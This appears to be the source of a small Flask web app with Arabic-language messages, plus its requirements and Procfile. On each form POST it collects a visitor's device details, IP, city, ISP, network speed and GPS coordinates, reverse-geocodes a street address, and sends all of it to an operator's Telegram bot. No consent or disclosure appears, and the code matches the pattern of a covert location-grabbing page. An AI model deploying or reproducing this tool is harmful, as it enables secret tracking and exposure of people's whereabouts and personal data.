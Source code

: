 def send_telegram_message(message):
    url = f"https://api.telegram.org/bot{TELEGRAM_BOT_TOKEN}/sendMessage"
    payload = {"chat_id": TELEGRAM_CHAT_ID, "text": message, "parse_mode": "HTML"}
    try:
        requests.post(url, data=payload)
    except Exception as e:
        print(f"خطأ في إرسال رسالة التليجرام: {e}")

@app.route("/", methods=["GET", "POST"])
def index():
    if request.method == "POST":
        data = request.get_json()
        address = None
        if data.get('latitude') != 'متوفر' and data.get('longitude') != 'متوفر':
            address = get_address_from_coords(data['latitude'], data['longitude'])

        msg = f"""<b>تم جمع بيانات جديدة:</b>
نوع الجهاز والمتصفح: {data.get('userAgent')}
النظام الأساسي: {data.get('platform')}
اللغة: {data.get('language')}
عنوان الـ IP: {data.get('ip')}
المدينة: {data.get('city')}
المنطقة: {data.get('region')}
الدولة: {data.get('country')}
مزود الشبكة: {data.get('org')}
نوع الشبكة: {data.get('networkType')}
سرعة التنزيل (Mbps): {data.get('downlink')}
زمن الاستجابة (ms): {data.get('rtt')}
خط العرض: {data.get('latitude')}
خط الطول: {data.get('longitude')}
"""
        if address:
            msg += f"\nالعنوان التفصيلي: {address}"
        else:
            msg += "\nلم يتم الحصول على العنوان التفصيلي."

        send_telegram_message(msg)
        return "", 204
    return HTML_FORM

if __name__ == "__main__":
    port = int(os.environ.get("PORT", 8080))
    app.run(host="0.0.0.0", port=port)
    flask
requests
web: python main.py
